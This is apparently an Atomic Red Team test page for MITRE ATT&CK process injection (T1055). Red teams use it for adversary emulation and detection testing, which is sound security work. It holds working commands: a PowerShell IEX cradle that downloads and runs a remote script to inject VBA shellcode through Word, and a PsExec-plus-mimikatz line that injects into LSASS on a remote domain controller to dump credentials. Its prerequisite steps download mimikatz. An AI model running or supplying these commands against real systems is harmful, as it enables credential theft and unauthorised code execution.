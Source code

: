 # T1055 - Process Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055)
<blockquote>Adversaries may inject code into processes in order to evade process-based defenses as well as possibly elevate privileges. Process injection is a method of executing arbitrary code in the address space of a separate live process. Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via process injection may also evade detection from security products since the execution is masked under a legitimate process. 

There are many different ways to inject code into a process, many of which abuse legitimate functionalities. These implementations exist for every major OS but are typically platform specific. 

More sophisticated samples may perform multiple process injections to segment modules and further evade detection, utilizing named pipes or other inter-process communication (IPC) mechanisms as a communication channel. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Shellcode execution via VBA](#atomic-test-1---shellcode-execution-via-vba)

- [Atomic Test #2 - Remote Process Injection in LSASS via mimikatz](#atomic-test-2---remote-process-injection-in-lsass-via-mimikatz)


<br/>

## Atomic Test #1 - Shellcode execution via VBA
This module injects shellcode into a newly created process and executes. By default the shellcode is created,
with Metasploit, for use on x86-64 Windows 10 machines.

Note: Due to the way the VBA code handles memory/pointers/injection, a 64bit installation of Microsoft Office
is required.

**Supported Platforms:** Windows


**auto_generated_guid:** 1c91e740-1729-4329-b779-feba6e71d048






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1055\src\x64\T1055-macrocode.txt" -officeProduct "Word" -sub "Execute"
```




#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Remote Process Injection in LSASS via mimikatz
Use mimikatz to remotely (via psexec) dump LSASS process content for RID 500 via code injection (new thread).
Especially useful against domain controllers in Active Directory environments.
It must be executed in the context of a user who is privileged on remote `machine`.

The effect of `/inject` is explained in <https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html>

**Supported Platforms:** Windows


**auto_generated_guid:** 3203ad24-168e-4bec-be36-f79b13ef8a83





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| machine | machine to target (via psexec) | string | DC1|
| mimikatz_path | Mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|
| psexec_path | Path to PsExec | string | C:&#92;PSTools&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{psexec_path} /accepteula \\#{machine} -c #{mimikatz_path} "lsadump::lsa /inject /id:500" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip" -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_path}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory (Split-Path "#{psexec_path}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_path}" -Force
```




<br/>
